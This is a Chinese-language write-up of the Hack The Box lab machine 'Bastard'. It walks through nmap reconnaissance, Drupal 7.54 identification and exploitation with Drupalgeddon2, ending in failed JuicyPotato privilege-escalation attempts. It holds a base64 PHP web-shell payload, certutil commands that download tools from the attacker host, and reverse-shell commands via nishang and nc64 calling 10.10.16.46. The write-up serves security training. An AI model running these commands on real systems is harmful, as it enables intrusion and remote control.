


14 minutes
Bastard Writeup
本文章以 kali 地址为 10.10.16.46 做演示
初始侦察
nmap 端口扫描
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo nmap --min-rate 10000 -p- 10.129.6.171 -oA nmap/ports
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-28 08:11 EST
Nmap scan report for 10.129.6.171
Host is up (0.39s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT STATE SERVICE
80/tcp open http
135/tcp open msrpc
49154/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 15.57 seconds
nmap 详细信息扫描
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo nmap -sT -sC -sV -O -p80,135,49154 10.129.6.171 -oA nmap/detail
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-28 08:12 EST
Nmap scan report for 10.129.6.171
Host is up (0.22s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_ Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
135/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|2012|Phone|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (88%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.10 seconds
开放了 80、135、49154，详细信息扫描表明靶机跑在 Windows 下的 IIS 7.5上，运行的是 Drupal 7 服务，通过 ping 返回值为 ttl=127 确定为 Windows 操作系统，同时 80 端口暴露出了 includes、LICENSE.txt、robots.txt 等目录。
Drupal 是一个开源的内容管理系统，由 PHP 编写，主要用于构建和管理复杂网站
nmap udp 扫描
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo nmap -sU -Pn --top-ports 20 10.129.6.171 -oA nmap/udp
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-28 08:21 EST
Nmap scan report for 10.129.6.171
Host is up.
PORT STATE SERVICE
53/udp open|filtered domain
67/udp open|filtered dhcps
68/udp open|filtered dhcpc
69/udp open|filtered tftp
123/udp open|filtered ntp
135/udp open|filtered msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
139/udp open|filtered netbios-ssn
161/udp open|filtered snmp
162/udp open|filtered snmptrap
445/udp open|filtered microsoft-ds
500/udp open|filtered isakmp
514/udp open|filtered syslog
520/udp open|filtered route
631/udp open|filtered ipp
1434/udp open|filtered ms-sql-m
1900/udp open|filtered upnp
4500/udp open|filtered nat-t-ike
49152/udp open|filtered unknown
Nmap done: 1 IP address (1 host up) scanned in 5.16 seconds
没有明确开放的状态，攻击面基本为零，可以后续按需再深入扫描。
nmap 漏洞脚本扫描
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo nmap --script=vuln -p80,135,49154 10.129.6.171 -oA nmap/vuln
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-28 08:22 EST
Nmap scan report for 10.129.6.171
Host is up (0.21s latency).
PORT STATE SERVICE
80/tcp open http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.129.6.171
| Found the following possible CSRF vulnerabilities:
|
| Path: http://10.129.6.171:80/
| Form id: user-login-form
| Form action: /node?destination=node
|
| Path: http://10.129.6.171:80/node?destination=node
| Form id: user-login-form
| Form action: /node?destination=node
|
| Path: http://10.129.6.171:80/user/password
| Form id: user-pass
| Form action: /user/password
|
| Path: http://10.129.6.171:80/user/register
| Form id: user-register-form
| Form action: /user/register
|
| Path: http://10.129.6.171:80/user/
| Form id: user-login
| Form action: /user/
|
| Path: http://10.129.6.171:80/user
| Form id: user-login
|_ Form action: /user
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum:
| /rss.xml: RSS or Atom feed
| /robots.txt: Robots file
| /changelog.txt: Version is
| /UPGRADE.txt: Drupal file
| /INSTALL.txt: Drupal file
| /INSTALL.mysql.txt: Drupal file
| /INSTALL.pgsql.txt: Drupal file
| /CHANGELOG.txt: Drupal v1
| /: Drupal version 7
| /README.txt: Interesting, a readme.
| /0/: Potentially interesting folder
|_ /user/: Potentially interesting folder
135/tcp open msrpc
49154/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 6080.55 seconds
没有新的有价值的东西
whatweb 探测
通过 whatweb 可以进一步查看到 Drupal 的信息，进一步交叉验证系统和应用的情况。
┌──(kali㉿kali)-[~/Work/Kali]
└─$ whatweb 10.129.6.171
http://10.129.6.171 [200 OK] Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Microsoft-IIS/7.5], IP[10.129.6.171], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], Microsoft-IIS[7.5], PHP[5.3.28,], PasswordField[pass], Script[text/javascript], Title[Welcome to Bastard | Bastard], UncommonHeaders[x-content-type-options,x-generator], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.3.28, ASP.NET]
web-80 端口渗透
根据 nmap 的扫描结果添加 hosts 记录：
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo bash -c 'echo "10.129.6.171 drupal.htb" >> /etc/hosts'
[sudo] password for kali:
┌──(kali㉿kali)-[~/Work/Kali]
└─$ tail -n 1 /etc/hosts
10.129.6.171 drupal.htb
浏览器访问 web 界面，如下图：

对于这种大型的内容管理系统，先寻找是否由公开的漏洞利用，首先需要确定 Drupal 的版本、搜寻 Drupal 的默认密码尝试进行登入。在 Drupal 的源码中未发现具体的版本信息，使用弱密码也未能登入成功，访问前面 nmap 扫描暴露出的 robots.txt。
┌──(kali㉿kali)-[~/Work/Kali]
└─$ curl -v http://drupal.htb/robots.txt
* Host drupal.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.6.171
* Trying 10.129.6.171:80...
* Established connection to drupal.htb (10.129.6.171 port 80) from 10.10.16.46 port 38296
* using HTTP/1.x
> GET /robots.txt HTTP/1.1
> Host: drupal.htb
> User-Agent: curl/8.17.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 200 OK
< Content-Type: text/plain
< Last-Modified: Sun, 19 Mar 2017 10:42:44 GMT
< Accept-Ranges: bytes
< ETag: "65e4948a9da0d21:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Sun, 28 Dec 2025 14:15:21 GMT
< Content-Length: 2189
<
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used: http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html
User-agent: *
Crawl-delay: 10
# CSS, JS, Images
Allow: /misc/*.css$
Allow: /misc/*.css?
Allow: /misc/*.js$
Allow: /misc/*.js?
Allow: /misc/*.gif
Allow: /misc/*.jpg
Allow: /misc/*.jpeg
Allow: /misc/*.png
Allow: /modules/*.css$
Allow: /modules/*.css?
Allow: /modules/*.js$
Allow: /modules/*.js?
Allow: /modules/*.gif
Allow: /modules/*.jpg
Allow: /modules/*.jpeg
Allow: /modules/*.png
Allow: /profiles/*.css$
Allow: /profiles/*.css?
Allow: /profiles/*.js$
Allow: /profiles/*.js?
Allow: /profiles/*.gif
Allow: /profiles/*.jpg
Allow: /profiles/*.jpeg
Allow: /profiles/*.png
Allow: /themes/*.css$
Allow: /themes/*.css?
Allow: /themes/*.js$
Allow: /themes/*.js?
Allow: /themes/*.gif
Allow: /themes/*.jpg
Allow: /themes/*.jpeg
Allow: /themes/*.png
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
* Connection #0 to host drupal.htb:80 left intact
发现有 CHANGELOG.txt 文件，访问得到 Drupal 的具体版本为 7.54。
┌──(kali㉿kali)-[~/Work/Kali]
└─$ curl -v http://drupal.htb/CHANGELOG.txt | head -n 20
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host drupal.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.6.171
* Trying 10.129.6.171:80...
* Established connection to drupal.htb (10.129.6.171 port 80) from 10.10.16.46 port 42790
* using HTTP/1.x
> GET /CHANGELOG.txt HTTP/1.1
> Host: drupal.htb
> User-Agent: curl/8.17.0
> Accept: */*
>
* Request completely sent off
0 0 0 0 0 0 0 0 --:--:-- 0:00:01 --:--:-- 0< HTTP/1.1 200 OK
< Content-Type: text/plain
< Last-Modified: Sun, 19 Mar 2017 10:42:44 GMT
< Accept-Ranges: bytes
< ETag: "e45e8b8a9da0d21:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Sun, 28 Dec 2025 15:00:22 GMT
< Content-Length: 110781
<
{ [2417 bytes data]
7 110781 7 775
3Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
https://www.drupal.org/node/2826480).
0- Logging of searches can now be disabled (new option in the administrative
interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
(API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
(API addition: https://www.drupal.org/node/2824590).
- Fixed incorrect default value for short and medium date formats on the date
type configuration page.
- File validation error message is now removed after subsequent upload of valid
file.
- Numerous bug fixes.
- Numerous API documentation improvements.
- Additional performance improvements.
- Additional automated test coverage.
0 4621 0 0:00:23 0:00:01 0:00:22 4620* Failure writing output to destination, passed 2668 returned 439
7 110781 7 7753 0 0 4118 0 0:00:26 0:00:01 0:00:25 4117
* closing connection #0
curl: (23) Failure writing output to destination, passed 2668 returned 439
公开漏洞利用
使用 searchsploit 寻找 Drupal 7.5.4 的公开漏洞。
┌──(kali㉿kali)-[~/Work/Kali]
└─$ searchsploit Drupal 7.5
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User) | php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session) | php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1) | php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2) | php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution) | php/webapps/35150.php
Drupal < 4.7.6 - Post Comments Remote Command Execution | php/webapps/3313.pl
Drupal < 7.34 - Denial of Service | php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit) | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit) | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC) | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit) | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit) | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC) | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit) | php/remote/46510.rb
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit) | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution | php/webapps/46459.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
Drupalgeddon 的适配版本不在范围中，可尝试的为 Drupalgeddon2 与 Drupalgeddon3 。
Drupalgeddon2 利用
下载 searchsploit 检索到的 drupalgeddon2 利用。
┌──(kali㉿kali)-[~/Work/Kali]
└─$ searchsploit -m 44449
Exploit: Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
URL: https://www.exploit-db.com/exploits/44449
Path: /usr/share/exploitdb/exploits/php/webapps/44449.rb
Codes: CVE-2018-7600
Verified: True
File Type: Ruby script, ASCII text
Copied to: /home/kali/Work/Kali/44449.rb
┌──(kali㉿kali)-[~/Work/Kali]
└─$ ls
44449.rb nmap
按照使用说明利用获得初始用户与第一个 flag。
┌──(kali㉿kali)-[~/Work/Kali]
└─$ ruby 44449.rb
Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]
Example for target that does not require authentication:
ruby drupalgeddon2.rb https://example.com
Example for target that does require authentication:
ruby drupalgeddon2.rb https://example.com --authentication
┌──(kali㉿kali)-[~/Work/Kali]
└─$ ruby 44449.rb http://drupal.htb
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://drupal.htb/
--------------------------------------------------------------------------------
[+] Found : http://drupal.htb/CHANGELOG.txt (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution (Method: name)
[i] Payload: echo MGJWBSGA
[+] Result : MGJWBSGA
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file (http://drupal.htb/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)... Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Existing file (http://drupal.htb/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)... Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Existing file (http://drupal.htb/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)... Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>>
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> systeminfo
Host Name: BASTARD
OS Name: Microsoft Windows Server 2008 R2 Datacenter
OS Version: 6.1.7600 N/A Build 7600
OS Manufacturer: Microsoft Corporation
OS Configuration: Standalone Server
OS Build Type: Multiprocessor Free
Registered Owner: Windows User
Registered Organization:
Product ID: 55041-402-3582622-84461
Original Install Date: 18/3/2017, 7:04:46
System Boot Time: 28/12/2025, 3:06:31
System Manufacturer: VMware, Inc.
System Model: VMware Virtual Platform
System Type: x64-based PC
Processor(s): 2 Processor(s) Installed.
[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version: Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory: C:\Windows
System Directory: C:\Windows\system32
Boot Device: \Device\HarddiskVolume1
System Locale: el;Greek
Input Locale: en-us;English (United States)
Time Zone: (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory: 2.047 MB
Available Physical Memory: 1.567 MB
Virtual Memory: Max Size: 4.095 MB
Virtual Memory: Available: 3.580 MB
Virtual Memory: In Use: 515 MB
Page File Location(s): C:\pagefile.sys
Domain: HTB
Logon Server: N/A
Hotfix(s): N/A
Network Card(s): 1 NIC(s) Installed.
[01]: Intel(R) PRO/1000 MT Network Connection
Connection Name: Local Area Connection
DHCP Enabled: Yes
DHCP Server: 10.129.0.1
IP address(es)
[01]: 10.129.6.171
drupalgeddon2>>
drupalgeddon2>> type c:\users\dimitris\Desktop\user.txt
d89b289c7eff24c7b2de8cea489cf1e4
将 nishang 的 Invoke-PowerShellTcp.ps1复制到工作目录下，编辑脚本在尾部追加 Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.46 -Port 443
┌──(kali㉿kali)-[~/Work]
└─$ nishang
> nishang ~ Collection of PowerShell scripts and payloads
/usr/share/nishang
├── ActiveDirectory
├── Antak-WebShell
├── Backdoors
├── Bypass
├── Client
├── Escalation
├── Execution
├── Gather
├── Misc
├── MITM
├── nishang.psm1
├── Pivot
├── powerpreter
├── Prasadhak
├── Scan
├── Shells
└── Utility
┌──(kali㉿kali)-[/usr/share/nishang]
└─$ cp Shells/Invoke-PowerShellTcp.ps1 ~/Work/Kali
┌──(kali㉿kali)-[/usr/share/nishang]
└─$ ls ~/Work/Kali
44449.rb Invoke-PowerShellTcp.ps1 nmap
┌──(kali㉿kali)-[~/Work/Kali]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.46 -Port 443' >> Invoke-PowerShellTcp.ps1
┌──(kali㉿kali)-[~/Work/Kali]
└─$ tail -n 1 Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.46 -Port 443
开启监听获得反弹 shell。

提权
靶机的操作系统为小于 Windows Server 2019，且开启了 SeImpersonate。可以使用 juicy-potato 提权。
PS C:\inetpub\drupal-7.54>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
将 juicy-potato 与 nc64 下载至靶机，按照提示运行获得 root。
PS C:\inetpub\drupal-7.54>
PS C:\inetpub\drupal-7.54> certutil.exe -urlcache -split -f http://10.10.16.46/JuicyPotato.exe
**** Online ****
000000 ...
054e00
CertUtil: -URLCache command completed successfully.
PS C:\inetpub\drupal-7.54> PS C:\inetpub\drupal-7.54>
PS C:\inetpub\drupal-7.54> JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "\\10.10.16.46\share\nc64.exe -e
cmd.exe 10.10.16.46 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : The string starting:
At line:1 char:59
+ JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a <<<< "\\10.10.16.4
6\share\nc64.exe -e
is missing the terminator: ".
At line:128 char:21
+ Invoke-PowerShellTcp <<<< -Reverse -IPAddress 10.10.16.46 -Port 443
+ CategoryInfo : NotSpecified: (:) [Write-Error], WriteErrorExcep
tion
+ FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio
n,Invoke-PowerShellTcp
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : The string starting:
At line:1 char:25
+ cmd.exe 10.10.16.46 4444 <<<< " -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D
}
is missing the terminator: ".
At line:128 char:21
+ Invoke-PowerShellTcp <<<< -Reverse -IPAddress 10.10.16.46 -Port 443
+ CategoryInfo : NotSpecified: (:) [Write-Error], WriteErrorExcep
tion
+ FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio
n,Invoke-PowerShellTcp
PS C:\inetpub\drupal-7.54> certutil.exe -urlcache -split -f http://10.10.16.46/nc64.exe
**** Online ****
0000 ...
d800
CertUtil: -URLCache command completed successfully.
PS C:\inetpub\drupal-7.54> JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal7.54\nc64.exe -e cmd.exe 10.10.16.46 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
**** Online ****
0000 ...
d800
CertUtil: -URLCache command completed successfully.
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : Bad numeric constant: 9.
At line:128 char:21
+ Invoke-PowerShellTcp <<<< -Reverse -IPAddress 10.10.16.46 -Port 443
+ CategoryInfo : NotSpecified: (:) [Write-Error], WriteErrorExcep
tion
+ FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio
n,Invoke-PowerShellTcp
PS C:\inetpub\drupal-7.54> JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal7.54\nc64.exe -e cmd.exe 10.10.16.46 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : Bad numeric constant: 9.
At line:128 char:21
+ Invoke-PowerShellTcp <<<< -Reverse -IPAddress 10.10.16.46 -Port 443
+ CategoryInfo : NotSpecified: (:) [Write-Error], WriteErrorExcep
tion
+ FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio
n,Invoke-PowerShellTcp
